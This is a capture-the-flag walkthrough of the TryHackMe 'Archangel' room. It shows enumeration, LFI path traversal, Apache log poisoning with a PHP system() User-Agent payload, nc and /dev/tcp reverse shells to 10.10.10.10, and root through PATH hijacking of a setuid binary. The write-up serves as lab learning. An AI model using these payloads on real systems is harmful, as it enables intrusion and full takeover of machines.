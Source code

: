 ## Archangel
https://tryhackme.com/room/archangel

## Enum
```
nmap -Pn -sC -sV -sS -p- ip.thm --open -vv
```
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 17:04 JST
Scanning ip.thm (10.10.49.173) [65535 ports]
Discovered open port 22/tcp on 10.10.49.173
Discovered open port 80/tcp on 10.10.49.173
Not shown: 65526 closed tcp ports (reset), 7 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPrwb4vLZ/CJqefgxZMUh3zsubjXMLrKYpP8Oy5jNSRaZynNICWMQNfcuLZ2GZbR84iEQJrNqCFcbsgD+4OPyy0TXV1biJExck3OlriDBn3g9trxh6qcHTBKoUMM3CnEJtuaZ1ZPmmebbRGyrG03jzIow+w2updsJ3C0nkUxdSQ7FaNxwYOZ5S3X5XdLw2RXu/o130fs6qmFYYTm2qii6Ilf5EkyffeYRc8SbPpZKoEpT7TQ08VYEICier9ND408kGERHinsVtBDkaCec3XmWXkFsOJUdW4BYVhrD3M8JBvL1kPmReOnx8Q7JX2JpGDenXNOjEBS3BIX2vjj17Qo3V
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKhhd/akQ2OLPa2ogtMy7V/GEqDyDz8IZZQ+266QEHke6vdC9papydu1wlbdtMVdOPx1S6zxA4CzyrcIwDQSiCg=
|   256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBE3FV9PrmRlGbT2XSUjGvDjlWoA/7nPoHjcCXLer12O
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wavefire
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
ffuf -u http://ip.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

```
________________________________________________

.hta                    [Status: 403, Size: 271, Words: 20, Lines: 10, Duration: 435ms]
.htaccess               [Status: 403, Size: 271, Words: 20, Lines: 10, Duration: 435ms]
.htpasswd               [Status: 403, Size: 271, Words: 20, Lines: 10, Duration: 3022ms]
flags                   [Status: 301, Size: 300, Words: 20, Lines: 10, Duration: 421ms]
images                  [Status: 301, Size: 301, Words: 20, Lines: 10, Duration: 462ms]
index.html              [Status: 200, Size: 19188, Words: 2646, Lines: 321, Duration: 445ms]
layout                  [Status: 301, Size: 301, Words: 20, Lines: 10, Duration: 428ms]
pages                   [Status: 301, Size: 300, Words: 20, Lines: 10, Duration: 429ms]
server-status           [Status: 403, Size: 271, Words: 20, Lines: 10, Duration: 423ms]
:: Progress: [4713/4713] :: Job [1/1] :: 88 req/sec :: Duration: [0:00:55] :: Errors: 0 ::
```

```
curl http://ip.thm/flags -L
```
```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /flags</title>
 </head>
 <body>
<h1>Index of /flags</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/text.gif" alt="[TXT]"></td><td><a href="flag.html">flag.html</a></td><td align="right">2020-11-19 18:45  </td><td align="right"> 93 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.29 (Ubuntu) Server at ip.thm Port 80</address>
</body></html>
```

```
curl http://ip.thm/flags/flag.html -L
```
```
<meta http-equiv="Refresh" content="0; url='https://www.youtube.com/watch?v=dQw4w9WgXcQ'" />
```
![image](https://user-images.githubusercontent.com/6504854/184794308-fb832902-0e6f-4f8f-9ccc-6b07358dcf42.png)

🏴 👊👊👊 Do I need to find a different hostname...???

![image](https://user-images.githubusercontent.com/6504854/184795518-debbe329-3b06-4f36-99a3-fa52469930f1.png)
![image](https://user-images.githubusercontent.com/6504854/184795709-1a2cf195-7427-4a39-8a08-b3bf12247238.png)
![image](https://user-images.githubusercontent.com/6504854/184796237-adcf27fc-55fb-4c55-962c-5956314c0bcb.png)

```
ffuf -u http://mafialive.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
```
________________________________________________

.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 4457ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5645ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 7642ms]
index.html              [Status: 200, Size: 59, Words: 2, Lines: 4, Duration: 479ms]
robots.txt              [Status: 200, Size: 34, Words: 3, Lines: 3, Duration: 646ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 440ms]
:: Progress: [4713/4713] :: Job [1/1] :: 79 req/sec :: Duration: [0:01:01] :: Errors: 0 ::
```

```
curl http://mafialive.thm/robots.txt
```
```
User-agent: *
Disallow: /test.php
```
![image](https://user-images.githubusercontent.com/6504854/184806425-7ef4a11a-10f3-47ba-97ce-69037012897f.png)
![image](https://user-images.githubusercontent.com/6504854/184806468-80fc0b5a-bed7-49a9-b37b-85e791e77e8e.png)
![image](https://user-images.githubusercontent.com/6504854/184806580-7b6ca63f-f809-4a04-bac8-f94fa2917123.png)
![image](https://user-images.githubusercontent.com/6504854/184806744-54b5c6a8-17a1-4c7d-b7fd-c8be46f48306.png)

```
curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/./.././.././.././../etc/passwd
```

```
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
    </div>
</body>

</html>
```
```
curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/./.././.././.././../var/log/apache2/access.log
```
```
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>

10.10.10.10 - - [16/Aug/2022:10:59:42 +0530] "GET /test.php?view=/var/www/html/development_testing/.././../../.././.././../etc/passwd HTTP/1.1" 200 482 "-" "curl/7.84.0"
10.10.10.10 - - [16/Aug/2022:11:00:06 +0530] "GET /test.php?view=/var/www/html/development_testing/test.php HTTP/1.1" 500 443 "-" "curl/7.84.0"
```
```
curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/ -H "User-Agent: AAA <?php system('id'); ?> AAA"
```
```
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
            </div>
</body>

</html>
```

```
curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/./.././.././.././../var/log/apache2/access.log
```
```
10.10.10.10 - - [16/Aug/2022:11:27:21 +0530] "GET /test.php?view=/var/www/html/development_testing/ HTTP/1.1" 200 458 "-" "AAA uid=33(www-data) gid=33(www-data) groups=33(www-data)
 AAA"
```
🏴 I managed to inject RCE on apache log file via LFI.Finally it's mistery why it was able to access only with single-dot and double-dot ./../
Is it esper? I checked other's writeups,oops!

## Flag
```
nc -nlvp 4444
```
```
curl http://mafialive.thm/ -H "User-Agent: AAA <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f'); ?> AAA"
```
```
curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/./.././.././.././../var/log/apache2/access.log
```
```
$　cat /home/archangel/user.txt
```
```
$ find / -user archangel 2>/dev/null
/opt/helloworld.sh
/opt/backupfiles
/home/archangel
/home/archangel/secret
/home/archangel/user.txt
/home/archangel/myfiles

$ cat /opt/helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
$ echo "sh -i >& /dev/tcp/10.10.10.10/2222 0>&1" >> /opt/helloworld.sh
$ cd /opt
$ ./helloworld.sh
```
🏴 I got archangel shell.Let's find out root one.

![image](https://user-images.githubusercontent.com/6504854/184823270-fcd5c23d-e82e-45f3-8fda-1d808f488ec9.png)

```
$ file backup
backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9093af828f30f957efce9020adc16dc214371d45, for GNU/Linux 3.2.0, not stripped
$ ./backup
cp: cannot stat '/home/user/archangel/myfiles/*': No such file or directory
```
🏴 Backup calls cp and read hints.😉

```
$ echo '#!/bin/bash' > cp
$ echo '/bin/bash' >> cp
$ chmod +x cp
$ export PATH=/home/archangel/secret:$PATH
$ ./backup
id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
cat /root/root.txt
```

Thank you for your time! It seems to last the hottest earth ever! Happy hacking! 🍨🍨🍨😋🍨🍨🍨 

アイスの食べすぎにはご注意ください。 🥶
